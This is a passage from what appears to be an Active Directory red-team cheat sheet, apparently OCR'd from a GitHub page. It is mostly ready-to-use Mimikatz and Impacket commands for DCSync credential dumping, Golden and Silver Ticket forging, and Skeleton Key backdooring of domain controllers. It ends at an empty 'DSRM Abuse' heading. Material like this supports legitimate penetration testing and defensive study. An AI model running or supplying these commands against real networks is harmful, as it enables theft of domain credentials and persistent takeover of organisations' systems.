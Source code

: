 ```
lsadump::dcsync /domain:root.domain.local /all
```

Detailed Articles:
- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
- [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
## Domain Persistence

### Golden Ticket Attack
  ```
  #Execute mimikatz on DC as DA to grab krbtgt hash:
  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

  #On any machine:
  Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
  <HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
  ```
### DCsync Attack
  ```
  #DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
  Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'
  
  #DCsync using secretsdump.py from impacket with NTLM authentication
  secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm
  
  #DCsync using secretsdump.py from impacket with Kerberos Authentication
  secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
  ```
  **Tip:** \
  /ptt -> inject ticket on current running session \
  /ticket -> save the ticket on the system for later use
### Silver Ticket Attack
  ```
  Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
  <ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
  ```
  [SPN List](https://adsecurity.org/?page_id=183)
### Skeleton Key Attack
  ```
  #Exploitation Command runned as DA:
  Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

  #Access using the password "mimikatz"
  Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
  ```
### DSRM Abuse
